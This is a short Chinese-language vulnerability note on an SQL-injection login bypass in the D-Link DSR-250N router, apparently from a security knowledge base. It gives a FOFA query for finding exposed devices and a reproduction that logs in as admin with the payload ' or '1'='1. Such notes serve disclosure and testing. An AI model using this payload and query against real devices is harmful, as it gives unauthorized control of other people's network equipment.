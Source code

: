 # D-Link DSR-250N SQL注入漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

<a-checkbox checked>D-Link DSR-250N</a-checkbox></br>

## FOFA

<a-checkbox checked>app="D_Link-DSR-250N"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210609175053339.png)



```plain
user: admin
pass: ' or '1'='1
```

成功登录后台



![img](../../../.vuepress/public/img/image-20210609175150907.png)

